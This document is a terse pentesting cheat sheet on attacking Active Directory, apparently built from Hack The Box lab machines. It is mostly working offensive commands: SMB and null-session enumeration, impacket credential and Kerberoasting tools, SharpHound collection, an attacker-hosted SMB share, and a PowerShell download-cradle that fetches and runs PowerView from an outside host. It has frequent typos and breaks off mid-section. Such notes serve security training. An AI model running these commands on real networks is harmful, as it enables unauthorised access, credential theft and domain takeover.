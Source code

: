 ### ACTIVE DIRECTORY

if you have kerberos, dns and ldap, its probably a windows domain controller

#### using SMBMAP

```
smbmap -H 10.10.10.161
smbmap -R <sharename> -H <Host IP>
smbmap -R <sharename> -H <Host IP> -A Groups.xml -q
smbmap -d dom -u usm -p pass -H host
```

#### Once we have a valid credential

`GetADUsers.py -all -dc-ip 10.10.10.100 active.htb/svc_tgs:<PASS>`

`pxexec.py dom/usn:pwd@host`

when yu have a valid credential, you can run

`runas /netonly /user:active.htb\svc_tgs cmd`

on a windows cmdlien, and you'll have access to the remote one

once you run this, you can run bloodhound from your windows boxn from where you have authenticated as the domain user

`.\sharphound.exe -a all -d active.htb --domain-controller 10.10.10.100`

if you're doing sharphound from your windows machine, its worth changing the DNS to the DNS of the domain controller

`GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs:<PASS>`
this is called Kerberoasting ^^

General TIP: when you ping, if the TTL is above 128, usually some network infrastructure, if its b/w 64 and 128, its a windows box, if its 64 or below, its a Linux box

crackmapexec getting password policy

`crackmapexec smb 10.10.10.161 --pass-pol`

#### Nulll auth

just pass -u '' -p '' everywhere

`GetNPUsers.py -dc-ip 10.10.10.161 htb.local/`

`rpcclient -U '' 10.10.10.161`

once in rpc, enumdomusers, queryusergroups <user-rid(0x47b)>, querygroup <group-rid>, queryuser <uesr-rid>

#### SMB server on linux using impacket

`impacket-smbserver sharename $(pwd) -smb2support -user user -password pass`

now on the windows powershell,

```
$pass = convertto-securestring 'pass' -asplaintext -force
$cred = new-object system.management.automation.pscredential('user', $pass)
new-psdrive -name drivename -psprovider filesystem -credential $cred -root \\kalip\sharename
```

#### Powerview

IEX(new-object net.webclient).downloadstring('http://$IP/PowerView.ps1') => this directly import powerview into source

#### LDAPSEARCH

ldapsearch 
